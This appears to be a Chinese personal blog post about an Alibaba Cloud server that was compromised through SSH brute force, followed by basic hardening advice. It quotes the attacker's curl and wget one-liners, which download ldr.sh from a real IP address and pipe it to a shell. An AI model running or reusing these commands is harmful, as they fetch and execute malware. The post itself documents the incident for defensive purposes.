 ```yaml
---
title: 我的服务器被暴力破解
date: 2022-01-03 20:30:21
tags: 
- 记录
top_img: /img/15.jpg
#cover: https://s2.loli.net/2022/01/03/dOe1bnlyX2jRfgp.png
cover: https://s2.loli.net/2022/01/03/FEqAMmPWH18LeGY.png
---
```

> 新手刚接触ECS云服务器还不懂需要做些什么，只能见招拆招了。今天服务器遭受SSH暴力破解，所以整理一些东西让遇到这些问题的人可以减少这个烦恼，废话不多说进入正题。
起因：
手机收到阿里云提示短信，检测到ECS服务器出现紧急安全事件：访问恶意下载源

## 一、具体事件
服务器被恶意攻击，是人性的泯灭还是道德的沦丧，咱就是说才买几天的服务器，就挂了个人博客的项目，不至于吧，不至于吧！HXD？！！服务器格式化了，项目得重新部署了.....fffffffffffff
自己的阿里云服务器被别有用心的人gank一波，服务器被暴力破解密码并且异地登录，然后我就收到了阿里云发的服务器异地登录短信，打开手机查看阿里云，好家伙，五个安全警告，有三个是恶意脚本代码执行的警告，分别执行了`curl`，`bash`以及`wget`命令，具体命令行代码分别如下：

```bash
curl -k --user-agent e842c5c9_root:Root1234 http://194.145.227.21/ldr.sh
```

```curl
bash -c (curl -k --user-agent e842c5c9_root:Root1234 http://194.145.227.21/ldr.sh||wget --no-check-certificate --user-agent e842c5c9_root:Root1234 
-q -O- http://194.145.227.21/ldr.sh)|sh
```

```wget
wget --no-check-certificate --user-agent e842c5c9_root:Root1234 -q -O- http://194.145.227.21/ldr.sh
```

![6.png](https://s2.loli.net/2022/01/03/WpvSRzAY3LPuKQo.png)

### 执行恶意脚本文件其中一项警告的截图如下：
![7.png](https://s2.loli.net/2022/01/03/jESVpurQkszeCGJ.png)

尝试访问这个网站，`http://194.145.227.21/ldr.sh||wget`，提示木马风险，没敢继续访问。

## 二、如何预防
### 1. 什么是SSH暴力破解攻击？
SSH暴力破解是指攻击者通过密码字典或随机组合密码的方式尝试登陆服务器（针对的是全网机器），这种攻击行为一般不会有明确攻击目标，多数是通过扫描软件直接扫描整个广播域或网段；

### 2. 怎样预防被暴力破解攻击？

    (1)定期检查并修复系统漏洞 
    (2)定期修改SSH密码，或配置证书登陆 
    (3)修改SSH端口 
    (4)禁Ping
    (5)若你长期不需要登陆SSH，请在面板中将SSH服务关闭 
    (6)安装云锁、安全狗等安全软件
